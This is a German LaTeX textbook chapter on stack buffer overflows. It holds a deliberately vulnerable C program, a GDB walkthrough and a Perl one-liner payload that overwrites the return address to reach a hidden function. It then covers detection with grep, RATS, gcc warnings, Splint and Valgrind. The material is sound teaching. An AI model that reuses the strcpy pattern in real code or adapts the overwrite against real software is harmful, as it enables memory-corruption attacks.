\newpage
\subsection{Buffer-Overflow-Schwachstellen}	

Buffer-Overflow-Schwachstellen entstehen im Regelfall durch die 
Verwendung von Programmiersprachen, die es einem Entwickler ermöglichen, 
allozierte Speicherbereiche unkontrolliert zu überschreiben.

\par\medskip 
Als ein typischer Vertreter für eine Programmiersprache, die potenziell 
für Buffer-Schwachstellen anfällig ist, gilt die Programmiersprache C. 
Diese Programmiersprache ermöglicht es einem Entwickler, nahezu beliebige 
Speicheradressen zu überschreiben und bietet darüber hinaus noch 
zahlreiche eigene, native C-Funktionen (z.B. \texttt{strcpy()}), die 
unabhängig vom Entwickler keinerlei Prüfungen in Hinsicht auf den 
benötigten Speicherplatz implementiert haben.
\\\\
\textbf{Beispiel: Stack-Overflow (Setup: x64-System, Linux, gcc-4.8.1)}
\\
Der C-Code im folgenden Beispiel erwartet die Eingabe einer beliebigen 
Zeichenkette mit einer maximalen Länge von 63 Zeichen zzgl. 
des String-Ende-Zeichens als Kommandozeilenparameter. 
Die im Code verwendete C-Funktion \texttt{strcpy()} gilt als unsicher, 
da keine Längenprüfung des zu kopierenden Strings vorgenommen wird. 
Mithilfe der \texttt{strcpy()}-Funktion ist es später möglich, die 
Rücksprungadresse der \texttt{go()}-Funktion so zu modifizieren, dass 
die im Code nicht aufgerufene Funktion \texttt{pwnd()} ausgeführt wird.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int go(char *input) {
        char data[64];
        strcpy(data,input);
        printf ("String: %s\n", data);
        return 1;
}

void pwnd(void) {
        printf("\nPWND!\n");
        exit(0);
}

int main(int argc, char *argv[]) {
        if (argc > 1)
        go(argv[1]);
}
\end{lstlisting}

\begin{figure}[htbp]
 \centering
 
\includegraphics[scale=.5]{abbildungen/poc_1}
 \caption{Reguläre Funktionsweise des Programms}
 \label{fig:poc_1} 
\end{figure}

\newpage
Im Folgenden wird das Programm analysiert und versucht, durch eine erfolgreiche Modifikation der Speicheradressen die Funktion \texttt{pwnd()} aufzurufen.
Um das Programm zu analysieren, wird der GNU Debugger\footnote{\url{http://www.gnu.org/software/gdb}} 
(GDB-Kurzreferenz \cite{hall_beejs}). %\footnote{\url{http://beej.us/guide/bggdb}}) verwendet. 
Für einen ersten Überblick werden die drei Funktionen disassembliert.
\\
\\
\texttt{main()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[user@audit exploit]$ gdb -q poc
Reading symbols from /home/user/exploit/poc...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400624 <+0>:     push   %rbp
   [...]
   0x000000000040063d <+25>:    add    $0x8,%rax
   0x0000000000400641 <+29>:    mov    (%rax),%rax
   0x0000000000400644 <+32>:    mov    %rax,%rdi
   0x0000000000400647 <+35>:    callq  0x4005d0 <go>
   0x000000000040064c <+40>:    leaveq
   0x000000000040064d <+41>:    retq
End of assembler dump.
\end{lstlisting}


\texttt{go()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas go
Dump of assembler code for function go:
   [...]
   0x00000000004005e0 <+16>:    lea    -0x40(%rbp),%rax
   0x00000000004005e4 <+20>:    mov    %rdx,%rsi
   0x00000000004005e7 <+23>:    mov    %rax,%rdi
   0x00000000004005ea <+26>:    callq  0x400480 <strcpy@plt>
   0x00000000004005ef <+31>:    lea    -0x40(%rbp),%rax
   0x00000000004005f3 <+35>:    mov    %rax,%rsi
   0x00000000004005f6 <+38>:    mov    $0x4006d4,%edi
   0x00000000004005fb <+43>:    mov    $0x0,%eax
   0x0000000000400600 <+48>:    callq  0x4004a0 <printf@plt>
   0x0000000000400605 <+53>:    mov    $0x1,%eax
   0x000000000040060a <+58>:    leaveq
   0x000000000040060b <+59>:    retq
End of assembler dump.
\end{lstlisting}

\newpage
\texttt{pwnd()}-Funktion
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]
\end{lstlisting}
\par\medskip 
Aus den disassemblierten Funktionen können folgende Informationen entnommen werden:
\\
\textbf{\texttt{main()}-Funktion}

\begin{itemize}
      \item \texttt{0x0000000000400647 <+35>:    callq  0x4005d0 <go>}\\
        An dieser Stelle wird durch einen \texttt{call} die Funktion \texttt{go()} aufgerufen.
      \item \texttt{0x000000000040064c <+40>:    leaveq}\\
        Wurde die \texttt{go()}-Funktion erfolgreich durchlaufen, wird aus der \texttt{go()}-Funktion an diese Speicheradresse in die \texttt{main()}-Funktion zurückgesprungen.       
\end{itemize}
\textbf{\texttt{go()}-Funktion}

\begin{itemize}
      \item \texttt{x00000000004005ef <+31>:    lea    -0x40	(\%rbp), \%rax}\\
        Aufgrund des vorhandenen C-Codes ist bereits bekannt, dass für die \texttt{strcpy()}-Funktion ein \SI{64}{Byte} großes Charakter-Array (\texttt{char data[64]}) als Ziel des Kopiervorgangs reserviert wurde. Läge der C-Code nicht vor, könnte man durch den hexadezimalen Wert \texttt{0x40} die maximale Speichergröße von \SI{64}{Byte} feststellen.        
      \item \texttt{0x000000000040060b <+59>:    retq}\\
        Nach der Ausführung dieser Instruktion muss der Befehlszeiger (IP, bei x64 RIP abgekürzt) auf die Speicheradresse \texttt{0x40064c} innerhalb der \texttt{main()}-Funktion zeigen.
\end{itemize}



\textbf{\texttt{pwnd()}-Funktion}

\begin{itemize}
      \item \texttt{0x000000000040060c <+0>:     push   \%rbp}\\
        Um die \texttt{pwnd()}-Funktion aus der \texttt{pwnd()}-Funktion heraus aufrufen zu können, muss der Befehlszeiger (RIP) innerhalb der \texttt{go()}-Funktion auf die Speicheradresse \texttt{0x40060c} geändert werden. 
\end{itemize}

\newpage
Im Folgenden wird das Programm mit dem GDB gestartet, davor wird noch ein 
Haltepunkt an der Speicheradresse \texttt{0x40060b} gesetzt (siehe 
letzte Zeile der disassemblierten \texttt{go()} -Funktion), um die 
Überlegungen verifizieren zu können.
        
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
gdb) break *0x40060b
Breakpoint 6 at 0x40060b: file poc.c, line 13.
(gdb) run AAAAAAAA

String: AAAAAAAA

Breakpoint 6, 0x000000000040060b in go 
(input=0x7fffffffecdb "AAAAAAAA") at poc.c:13}

(gdb) p &data
$20 = (char (*)[64]) 0x7fffffffe950
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb)
\end{lstlisting}

Das Programm wird mit 8-mal "A" als Konsolenparameter gestartet. Ist der Haltepunkt erreicht, wird der \SI{64}{Byte} große Speicherbereich der Variablen \texttt{data} gesucht. Im Anschluss werden vom Beginn des Speicherbereichs der Variablen \texttt{data} 12-mal \SI{8}{Byte} große Speicherbereiche dargestellt. 

Die ersten \SI{8}{Byte} entsprechen der hexadezimalen Darstellung der Zeichenfolge \texttt{AAAAAAAA}, die als Übergabeparameter verwendet wurde. Die folgenden 7-mal \SI{8}{Byte} großen Speicherblöcke werden nicht verwendet und beinhalten ausschließlich zufällige Werte. Um die Rücksprungadresse erfolgreich zu modifizieren, sind die folgenden \SI{8}{Byte} bzw. \SI{16}{Byte} relevant:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
\end{lstlisting}

Der linke Teil entspricht dem Basepointer (RBP), der rechte Teil entspricht 
der Rücksprungadresse in die \texttt{main()}-Funktion. Wird diese Adresse 
mit der Speicheradresse der \texttt{pwnd()}-Funktion überschrieben, so 
springt das Programm zur Laufzeit in die \texttt{pwnd()}-Funktion und 
führt diese aus.
 
\newpage 
Mit den folgenden Befehlen wird die \texttt{go()}-Funktion disassembliert, 
um den Startwert der \texttt{go()}-Funktion festzustellen. Im Anschluss 
werden die 12-mal \SI{8}{Byte} großen Speicheradressen 
ausgegeben und  \SI{2}{Byte} der Rücksprungadresse \texttt{0x40064c} modifiziert. 
Danach wird das Programm weiter ausgeführt und springt in die 
\texttt{pwnd()}-Funktion.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]	

End of assembler dump.
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) set {char}0x7fffffffe998 = 0x0c
(gdb) set {char}0x7fffffffe999 = 0x06
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040060c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) c
Continuing.
PWND!
[Inferior 1 (process 1190) exited normally]
(gdb)
\end{lstlisting}

Um den Aufwand einer manuellen Modifikation der Speicheradresse 
möglichst gering zu halten, kann man den Vorgang mit der Script-Sprache \texttt{Perl} 
automatisieren:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) run `perl -e 'print "A"x72 . "\x0c\x06\x40"'`
String: AAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAA@
PWND!
[Inferior 1 (process 1624) exited normally]
(gdb)
\end{lstlisting}

\newpage
Dabei werden insgesamt \SI{72}{Byte} mit dem Zeichen \texttt{A} 
überschrieben und \SI{3}{Byte} mit hexadezimalen Werten:

\begin{itemize}
      \item \SI{64}{Byte} Speicherplatz der \texttt{data}-Variablen    
      \item \SI{8}{Byte} Basepointer
      \item \SI{3}{Byte} Rücksprungadresse unter Berücksichtigung der Byteorder (Little-Endian)
\end{itemize}

\textbf{Hinweis:}

Wird zur Nachstellung des Beispiels ein veralteter \texttt{gcc}-Compiler 
in der Version 3.x (vgl. \cite{stack_layout}) %\footnote{\url{http://www.trapkit.de/papers/gcc\_stack\_layout\_v1\_20030830.pdf}} 
verwendet, ist es möglich, dass dieses Beispiel nicht funktioniert!

\subsection{Maßnahmen zur Behebung von Overflow-Schwachstellen}

In den folgenden Abschnitten werden Möglichkeiten beschrieben, wie man 
typische Overflow-Schwachstellen innerhalb eines Quelltextes aufspüren 
und beheben kann. Die folgend gezeigten Beispiele beziehen sich auf das 
im vorhergehenden Abschnitt beschriebe Quellcodebeispiel.

\subsubsection{Lexikalische Quellcode-Überprüfung}

Für eine lexikalische Überprüfung des Quellcodes können eine Vielzahl 
von Tools eingesetzt werden. Die Methoden reichen dabei von einer 
rudimentären grep-Analyse, über komplexe und meist kommerzielle 
statische Quellcodescanner-Lösungen (z.B. Fortify oder Checkmarx) 
bis hin zu Lösungen, die den Quellcode einer Anwendung sowohl statisch 
analysieren und zur Ausführung bringen um Laufzeitfehler erkennen zu 
können (z.B. Seeker)
Eine Liste von potentiell unsicheren C-Funktionen und deren "sicheren" 
Derivate sind in den folgenden beiden, vom ISO-Komitee herausgegeben, 
Dokumenten zu finden:

\begin{itemize}
      \item TR 24731-1 \cite{iso_tr_24731_1} %\footnote{\url{http://www.open-std.org/JTC1/SC22/WG14/www/docs/n1225.pdf}}   
      \item TR 24731-2 \cite{iso_wdtr_24731_2} %\footnote{\url{http://www.open-std.org/JTC1/SC22/WG14/www/docs/n1337.pdf}}
\end{itemize}
	
Die beiden Dokumente werden in Foren und Fachkreisen kontrovers 
diskutiert, dennoch ist das Dokument TR 24731-1 in die Entwicklung 
der Microsoft-Standard-C Bibliothek eingeflossen. Weiterhin wurden 
Empfehlungen aus den Dokumenten, wie z.B. die Entfernung der im 
C99-Standard noch enthaltenen \texttt{gets()}-Funktion, im neuen 
C-Standard (C11) umgesetzt.
Im Folgenden sollen nur zwei Beispiele für eine lexikalische Suche 
nach unsicheren Funktionen am Quellcode aus dem vorhergehenden 
Abschnitt hergenommen werden:
\par\medskip 
Durch \texttt{grep()} werden sämtliche Zeilen des Quellcodebeispiels 
ausgegeben, in denen die Funktionen \texttt{strcpy()} und \texttt{gets()} 
aufgerufen werden. Bei diesem Vorgehen obliegt es dem Entwickler, diese 
Stellen im Quellcode eingehend auf Schwachstellen zu untersuchen und 
die unsicheren Funktionen durch die empfohlen Funktionsderivate zu 
ersetzen.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[user@audit exploit]$ grep -nE 'strcpy|gets' *.c
poc.c:9:        strcpy(data,input);
\end{lstlisting}

Es ist abzusehen, dass bei umfangreichen Quelltextanalysen eine solch 
rudimentäre Analyse zu einer sehr hohen "False-Postives"-Rate führt. 
Aufgrund dieser Tatsache wurden lexikalische Quellcodescanner mit dem 
Ziel entwickelt, die Effizienz der Methode zu verbessern.

Effiziente Quellcodescanner reduzieren die Rate der gefundenen 
"False-Postives" beispielsweise durch die Verwendung interner 
Datenbanken, die  potenziell unsichere Quellcodefragmente mit den in 
der Datenbank hinterlegten Codefragmenten abgleichen. Dabei wird 
weiterhin versucht, den Entwickler durch entsprechende Kommentare zu 
einer möglicherweise gefundenen Schwachstelle zu unterstützen. Ein 
Quellcodescanner sollte weder "False-Postives" noch "False-Negatives" 
produzieren. Dabei sollten "False Negatives" nach Möglichkeit nie 
vorkommen, da diese im Gegensatz zu "False Positives" zu 
Sicherheitsproblemen führen können.

Nachfolgend soll der frei verfügbare Quellcodescanner RATS\footnote{\url{https://www.fortify.com/downloads2/public/rats-2.3-2.tar.gz}} 
(Rough Auditing Tool for Security) vorgestellt werden. RATS ist in der 
Lage, C-, C++-, PHP-, Perl- und Python-Quelltext nach 
sicherheitsrelevanten Fehlern zu untersuchen. Schwerpunktmäßig 
berücksichtigt RATS dabei Buffer-Overflow- und Race-Condition-Schwachstellen.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[user@audit exploit]$ rats -i --resultsonly  *.c
poc.c:8: High: fixed size local buffer
Extra care should be taken to ensure that character arrays that 
are allocated on the stack are used safely.  They are prime 
targets for buffer overflow attacks.

poc.c:9: High: strcpy
Check to be sure that argument 2 passed to this function 
call will not copy more data than can be handled, resulting 
in a buffer overflow.
\end{lstlisting}

Bei der Ausgabe von RATS wird ein Nutzer gleich zu Beginn auf die 
Verwendung von Variablen mit fixer Puffergröße aufmerksam gemacht. 
Darüber hinaus wird darauf hingewiesen, dass man diese Puffer in 
Bezug auf potenzielle Buffer-Overflow-Schwachstellen überprüfen sollte.

Im weiteren Verlauf der Ausgabe wird auf die Verwendung der 
unsicheren \texttt{strcpy()}-Funktion und auf deren sichere 
Implementierung unter Berücksichtigung der benötigten Speichergröße 
des Zielpuffers hingewiesen.

\subsubsection{Semantische Quellcode-Überprüfungen}

Es existiert neben der rein lexikalischen Quelltextanalyse ein weiteres 
Analyseverfahren zur statischen Codeanalyse. Eine semantische 
Quellcode-Analyse erlaubt es, die lexikalischen Bedeutungen innerhalb des 
Quelltextes in Bezug auf ihren Bedeutungszusammenhang auszuwerten. 
Dabei bedient sich diese Analysemethode einer Datenflussanalyse und ist 
somit in der Lage, detaillierte Rückschlüsse über laufende Vorgänge 
innerhalb eines Programms zuzulassen.

\minisec{Grundlegende Überprüfungen mit dem Compiler}

Ein Compiler verfügt bereits meist über grundlegende Techniken, 
um mindestens eine lexikalische und zusätzlich eine semantische Analyse 
des Quellcodes durchzuführen. Der GNU C Compiler verfügt über verschiedene 
Optionen, die eine Fehlervermeidung oder eine Fehlersuche unterstützen.

Wird bei Aufruf des GNU C Compilers die Option \texttt{–Wall} angegeben, 
veranlasst dies den Compiler dazu, eine Überprüfung des Quelltextes 
während des Kompilierens durchzuführen. Um die Meldungen des Compilers 
offensichtlicher zu gestalten, wird die \texttt{main()}-Funktion durch 
die folgenden Codezeilen ergänzt:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
int main(int argc, char *argv[]) {
    [...]
    char array[8];
    printf("String eingeben: ");
    gets(array);
    printf ("Input-String: %s", array);
}
\end{lstlisting}

Wird der Quellcode jetzt mit der – Wall-Funktion kompiliert, erhält man 
folgende Compiler-Warnungen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[user@audit exploit]$ gcc -Wall poc.c -o poc
poc.c: In function main:
poc.c:29:2: warning: gets is deprecated 
(declared at /usr/include/stdio.h:638) [-Wdeprecated-declarations]
  gets(array);
poc.c:31:1: warning: control reaches end of non-void 
function [-Wreturn-type]
}
\end{lstlisting}

Der GNU C Compiler macht den Entwickler darauf aufmerksam, dass er zum 
einen die unsichere und veraltete \texttt{gets()}-Funktion verwendet und 
zum anderen, dass die \texttt{main()}-Funktion über keinen Return-Wert am 
Ende verfügt.

Anhand dieses Beispiels ist ersichtlich, dass der Compiler zwar in der 
Lage ist, Sicherheitsüberprüfungen auf lexikalischer und semantischer 
Ebene durchzuführen, jedoch offensichtlich nicht dazu in der Lage ist, 
unsichere Funktionsaufrufe wie z.B. den Aufruf der \texttt{strcpy()}-Funktion 
innerhalb der \texttt{go()}-Funktion zu erkennen.

\minisec{Erweiterte Überprüfung mit Splint}

Splint\footnote{\url{http://www.splint.org/}} ist ein statischer Quellcodescanner, 
der in der Lage ist, eine weitaus detaillierte semantische Analyse als 
der GNU C Compiler vorzunehmen.

Splint ist imstande, sogenannte LINT \cite{lint_software} %\footnote{\url{http://en.wikipedia.org/wiki/Lint\_(software)}}-Überprüfungen 
durchzuführen. Zu diesen Überprüfungen gehören beispielsweise die Suche 
nach Endlosschleifen, falschen Deklarationen oder ignorierten Rückgabewerten.

Im folgenden Beispiel wird der Beispielquelltext durch die Angabe des 
Parameters \texttt{+bounds-write} auf potenzielle Schwachstellen hin 
untersucht, die aufgrund eines schreibenden Speicherzugriffs zu einem 
Buffer-Overflow führen können.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[user@audit exploit]$ splint +bounds-write poc.c
Splint 3.1.2 --- 14 Sep 2011

poc.c: (in function go)
poc.c:9:2: Possible out-of-bounds store: strcpy(data, input)
    Unable to resolve constraint:
    requires maxRead(input @ poc.c:9:14) <= 63
     needed to satisfy precondition:
    requires maxSet(data @ poc.c:9:9) >= maxRead
    (input @ poc.c:9:14)
     derived from strcpy precondition: requires maxSet
     (<parameter 1>) >=
    maxRead(<parameter 2>)
  A memory write may write to an address beyond the 
  allocated buffer. (Use -boundswrite to inhibit warning)
poc.c: (in function main)
poc.c:25:2: Return value (type int) ignored: go(argv[1])
  Result returned by function call is not used. If this is 
  intended, can cast result to (void) to eliminate message. 
  (Use -retvalint to inhibit warning)
  [...]
\end{lstlisting}

Der Scanner erkennt im Gegensatz zum GNU C Compiler, dass es durch den 
Aufruf der \texttt{strcpy()}-Funktion zu einem möglichen Speicherüberlauf 
kommen könnte. Durch die Verwendung von Annotationen innerhalb des zu 
prüfenden Quellcodes können vom Entwickler neben programmatischen Fehlern 
auch logische Fehler entdeckt werden. Beispielsweise können durch  
Annotationen zwingend zu erfüllende Bedingungen festgelegt werden, 
die durch Splint geprüft werden, bevor eine bestimmte Funktion aufgerufen 
werden kann.

\subsubsection{Programmanalyse zur Programmlaufzeit}

Neben den beschreiben Möglichkeiten zur statischen Quellcodeanalyse 
besteht darüber hinaus die Möglichkeit, ein Programm zur Laufzeit auf 
Schwachstellen zu überwachen bzw. zu untersuchen, um gezielt 
Overflow-Schwachstellen, die erst zur Programmlaufzeit entstehen 
ausfindig zu machen.

Ein mögliches Beispiel für eine potenzielle Overflow-Schwachstelle, die 
erst während der Laufzeit eines Programmes auftreten kann, ist der 
Aufruf der C-Funktion \texttt{malloc()}, die Speicher im Heap alloziert.

Ein typisches Tool zur Programmanalyse zur Laufzeit ist ein Debugger. 
Mit einem Debugger kann man Programme zeilenweise abarbeiten und dabei 
den aktuellen Zustand bzw. den Wert von Variablen analysieren. Die Qualität 
der Überprüfung des Programmcodes unter Zuhilfenahme eines Debuggers 
hängt stark von der Fachexpertise eines Entwicklers ab. Für die umfangreiche 
Analyse von Programmen eignet sich ein Debugger nur bedingt.

Aus diesem Grund existieren spezielle Tools, die zur dynamischen Analyse 
von umfangreicheren Programmen oder Quelltexten eingesetzt werden können. 
Im Folgenden soll die Werkzeugsammlung Valgrind vorgestellt werden.

\minisec{Programmanalyse zur Laufzeit mit Valgrind}

Valgrind stellt eine Werkzeugsammlung zur Programmlaufzeit dar, die 
dynamischen Fehleranalyse durchführt. Dabei wird ein zu analysierendes 
Programm nicht auf der nativen Host-CPU, sondern innerhalb einer 
virtuellen Umgebung ausgeführt.
Vagrind übersetzt das Programm zu diesem Zweck in einen 
plattformunabhängigen Byte-Code, in den sogenannten Vex IR. Nach der 
Konvertierung des Programms in den Byte-Code können die verschiedenen 
Valgrind-Tools auf das zu analysierende Programm angewendet werden.

Die Konvertierung des nativen Programms nach Vex IR reduziert die 
Ausführungsgeschwindigkeit eines Programmes um ein Vielfaches, 
ermöglicht aber gleichzeitig eine detaillierte Analyse  benötigter 
(Speicher-)Ressourcen oder einzelner CPU-Register.

Für das folgende Beispiel wird die \texttt{go()}-Funktion um 2 
\texttt{malloc()}-Funktionsaufrufe erweitert:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
int go(char *input) {
    char *data;	
    data  = (char *)malloc(sizeof(char)*8);
    data = (char *)malloc(sizeof(char)*64);

    strcpy(data,input);
    [...]
}
\end{lstlisting}

Anschließend wird das Programm kompiliert und mit Valgrind aufgerufen, 
als Startparameter wird 84-mal der Buchstabe A übergeben. Dabei kommt 
es, wie aus den vorhergehen Beispielen bereits bekannt, zu einem 
Buffer-Overflow:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
valgrind --tool=memcheck --leak-check=full 
./poc `perl -e 'print "A"x84'`
\end{lstlisting}

Valgrind überprüft nun das Programm \texttt{poc} zur Laufzeit und 
generiert folgende Ausgabe:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[...]
==10902== Invalid write of size 1
==10902== at 0x4C2CBB2: __GI_strcpy 
          (in /usr/lib/valgrind/vgpreload_memcheck- 
          amd64-linux.so)
==10902== by 0x40069A: go (poc2.c:14)
==10902== by 0x400703: main (poc2.c:31)
==10902== Address 0x51e00e4 is 20 bytes after a block 
          of size 64 alloc'd
==10902== at 0x4C2C04B: malloc 
          (in /usr/lib/valgrind/vgpreload_memcheck- 
          amd64-linux.so)
[...]
==10902== HEAP SUMMARY:
==10902== in use at exit: 8 bytes in 1 blocks
==10902== total heap usage: 2 allocs, 1 frees, 72 bytes 
          allocated
==10902==
==10902== 8 bytes in 1 blocks are definitely lost in loss 
		  record 1 of 1
==10902== at 0x4C2C04B: malloc 
          (in /usr/lib/valgrind/vgpreload_memcheck-
          amd64-linux.so)
==10902== by 0x400675: go (poc2.c:9)
==10902== by 0x400703: main (poc2.c:31)
[...]
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, erkennt Valgrind zum einen, dass es 
beim Aufruf der \texttt{strcpy()}-Funktion zu einem Überlauf von \SI{20}{Byte} 
kommt und zum anderen, dass der \SI{8}{Byte} große (reservierte) 
Speicherblock aufgrund der fehlenden \texttt{free()}-Funktion nicht mehr 
freigeben wird und es zu einem unnötigen Verbrauch von Heap-Speicher kommt.
